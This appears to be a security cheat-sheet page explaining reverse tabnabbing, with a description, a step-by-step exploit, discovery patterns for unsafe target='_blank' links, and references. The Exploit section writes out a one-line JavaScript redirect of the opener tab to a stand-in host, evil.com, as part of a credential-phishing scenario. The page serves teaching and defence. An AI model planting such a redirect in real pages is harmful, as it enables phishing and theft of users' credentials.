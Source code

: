 # Tabnabbing

> Reverse tabnabbing is an attack where a page linked from the target page is able to rewrite that page, for example to replace it with a phishing site. As the user was originally on the correct page they are less likely to notice that it has been changed to a phishing site, especially if the site looks the same as the target. If the user authenticates to this new page then their credentials (or other sensitive data) are sent to the phishing site rather than the legitimate one.


## Summary

* [Tools](#tools)
* [Description](#description)
* [Exploit](#exploit)
* [Discover](#discover)
* [References](#references)


## Tools

- [PortSwigger/discovering-reversetabnabbing](https://portswigger.net/bappstore/80eb8fd46bf847b4b17861482c2f2a30)


## Description

When tabnabbing, the attacker searches for links that are inserted into the website and are under his control. Such links may be contained in a forum post, for example. Once he has found this kind of functionality, it checks that the link's `rel` attribute does not contain the value `noopener` and the target attribute contains the value `_blank`. If this is the case, the website is vulnerable to tabnabbing.


## Exploit 

1. Attacker posts a link to a website under his control that contains the following JS code: `window.opener.location = "http://evil.com"`
2. He tricks the victim into visiting the link, which is opened in the browser in a new tab.
3. At the same time the JS code is executed and the background tab is redirected to the website evil.com, which is most likely a phishing website.
4. If the victim opens the background tab again and doesn't look at the address bar, it may happen that he thinks he is logged out, because a login page appears, for example.
5. The victim tries to log on again and the attacker receives the credentials


## Discover

Search for the following link formats: 

```html
<a href="..." target="_blank" rel=""> 
<a href="..." target="_blank">
```


## References

* [Reverse Tabnabbing - OWASP, 20.10.20](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)
* [Tabnabbing - Wikipedia, 20.10.20](https://en.wikipedia.org/wiki/Tabnabbing)